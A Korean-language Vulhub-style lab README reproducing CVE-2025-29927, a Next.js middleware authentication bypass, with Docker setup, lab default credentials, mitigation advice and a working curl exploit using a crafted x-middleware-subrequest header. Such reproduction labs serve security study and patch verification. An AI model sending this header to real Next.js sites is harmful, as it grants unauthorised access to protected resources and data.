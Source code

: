 # Next.js 미들웨어 인증 우회 (CVE-2025-29927)

Next.js는 서버 사이드 렌더링(SSR), 정적 사이트 생성(SSG), 통합 라우팅 시스템 등 다양한 기능을 제공하는 React 기반 웹 애플리케이션 프레임워크입니다.  
Next.js를 인증 및 인가 미들웨어와 함께 구성할 때, 14.2.25 및 15.2.3 이전 버전에서는 인증 우회 취약점이 존재합니다.

이 취약점을 통해 공격자는 `x-middleware-subrequest` 헤더를 조작하여 미들웨어 기반 보안 제어를 우회하고, 보호된 리소스 및 민감한 데이터에 비인가 접근을 시도할 수 있습니다.

---

## 참고 자료

- [GitHub 보안 권고문](https://github.com/advisories/GHSA-f82v-jw5f-mf5w)
- [Zero Web Security 연구 문서](https://zero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware)
- [NVD CVE-2025-29927 상세 정보](https://nvd.nist.gov/vuln/detail/CVE-2025-29927)

---

## 환경 구성

다음 명령어를 실행하여 Next.js 15.2.2 버전 기반의 취약한 애플리케이션을 시작합니다:

```bash
docker compose up -d
```

애플리케이션이 실행된 후, 브라우저에서 다음 주소로 접속합니다:

```
http://your-ip:3000
```

초기 접속 시 로그인 페이지로 리다이렉트됩니다.  
기본 로그인 정보는 다음과 같습니다:

```
ID: admin
PW: password
```

로그인 후 대시보드에 접근할 수 있습니다.

![Docker Compose 실행](./images/docker-up.png)

---

## 취약점 재현

### 정상 접근 시도

로그인 없이 대시보드에 접근을 시도하면 로그인 페이지로 리다이렉트됩니다.

```bash
curl -i http://your-ip:3000
```

![로그인 페이지 접속](./images/login-page.png)

---

### 인증 우회 공격

취약점을 악용하기 위해, 요청 헤더에 `x-middleware-subrequest`를 추가합니다.  
헤더 값은 다음과 같이 설정합니다:

```
middleware:middleware:middleware:middleware
```

명령어 예시는 다음과 같습니다:

```bash
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware" http://your-ip:3000
```

![인증 우회 성공](./images/bypass-success.png)

정상적으로 인증 우회가 이루어지며, 로그인을 하지 않고도 보호된 리소스에 접근이 가능합니다.

---

## 결론

- 문제 원인: Next.js 미들웨어가 내부 서브 요청(`x-middleware-subrequest`)을 제대로 검증하지 않음.
- 영향: 인증 절차를 거치지 않고 민감한 리소스에 접근할 수 있음.
- 대응 방안:
  - Next.js 버전을 15.2.3 이상으로 업데이트
  - 미들웨어 요청 시 추가적인 세션 및 사용자 인증 검증 로직 추가
  - 신뢰할 수 없는 클라이언트로부터의 헤더 조작을 차단

---

## GitHub 레포지토리 링크

- [https://github.com/JuniorJANG/vulhub](https://github.com/JuniorJANG/vulhub)
